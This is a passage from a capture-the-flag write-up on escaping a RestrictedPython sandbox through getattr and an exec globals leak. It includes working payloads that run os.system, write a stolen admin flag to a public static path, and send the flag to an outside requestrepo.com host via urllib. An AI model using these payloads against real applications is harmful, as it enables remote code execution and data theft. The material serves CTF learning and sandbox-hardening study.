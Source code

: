 4. As the source code pass `exec_globals = globals().copy()` to `exec`, the original built-in `getattr` creeps back in. That's why we can use `getattr` to get the function. Moreover, from [python docs](https://docs.python.org/3/library/functions.html#getattr), the purpose of `getattr` in Python is to dynamically access an attribute of an object using its name as a string. This is especially useful when you don’t know the name of the attribute until runtime. As the attribute is loaded at runtime, we can use this to bypass the restriction.

This is the code that I use to play around:

```python
from RestrictedPython import compile_restricted

code = """
import os;s=getattr(os,'system');s('id');
"""

safe_byte_code = compile_restricted(
    code,
    filename='<inline code>',
    mode='exec',
)
exec(safe_byte_code,globals())
```

Since we totally control the `game_name`, which then passed to `compile_restricted` and `exec` of `RestrictedPython`, the only thing we need to do now is to escape the syntax of the `GAME_TEMPLATE`. Below is the payload after some testing:

```python
payload = """
A: pass
from app import database_helper as a;b=getattr(a,'getGames');c=b('admin');d=getattr(c,'__getitem__');f=getattr(d(0),'__getitem__')(2);import os;s=getattr(os,'system');s('echo '+f+'> \\x2fapp\\x2fstatic\\x2fflagg');
class B
""".strip()
data = {"game_name": payload, "game_desc": "a"}
```

There are some points that we need to pay attention to:
1. We need to be careful with python syntax. For example, we need to add `A: pass` and `class B` to make the code valid.
2. Whenever we want to use a function, we need to use `getattr` to get the function and then call it. For example, `getattr(a,'getGames')` is used to get the function `getGames` from `database_helper` class.
3. We need to avoid using `/` in the payload, as it will be urlencoded when we send the request. Instead, we can use `\\x2f` or `chr(47)` to represent `/`.
4. My idea is to use the `echo` command to write the flag to an exposed endpoint, which is `/app/static/flag`. However, there's even a better way to do this. This is the payload that I come up with when surfing the CTF's discord channel:

```python
payload = """
A:pass
from builtins import exec as e
e('import db,urllib.request;urllib.request.urlopen("http:\\x2f\\x2ffzhqtx8b.requestrepo.com\\x2f?"+db.DatabaseHelper().getGames("admin")[0][2])')
class B
""".strip()
data = {"game_name": payload, "game_desc": "a"}
``` 
